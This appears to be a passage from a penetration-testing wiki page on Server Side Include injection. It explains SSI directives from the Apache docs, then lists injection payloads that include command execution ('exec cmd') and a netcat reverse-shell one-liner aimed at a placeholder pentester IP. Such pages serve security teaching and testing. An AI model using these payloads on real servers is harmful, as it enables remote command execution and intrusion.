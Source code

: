 # Server Side Inclusion/Edge Side Inclusion Injection

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Server Side Inclusion Basic Information

**(Introduction taken from [Apache docs](https://httpd.apache.org/docs/current/howto/ssi.html))**

SSI (Server Side Includes) are directives that are **placed in HTML pages, and evaluated on the server** while the pages are being served. They let you **add dynamically generated content** to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.\
For example, you might place a directive into an existing HTML page, such as:

`<!--#echo var="DATE_LOCAL" -->`

And, when the page is served, this fragment will be evaluated and replaced with its value:

`Tuesday, 15-Jan-2013 19:28:54 EST`

The decision of when to use SSI, and when to have your page entirely generated by some program, is usually a matter of how much of the page is static, and how much needs to be recalculated every time the page is served. SSI is a great way to add small pieces of information, such as the current time - shown above. But if a majority of your page is being generated at the time that it is served, you need to look for some other solution.

You can infer the presence of SSI if the web application uses files with the extensions \*\* `.shtml`, `.shtm` or `.stm`\*\*, but it's not only the case.

A typical SSI expression has the following format:

```
<!--#directive param="value" -->
```

### Check

```javascript
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
```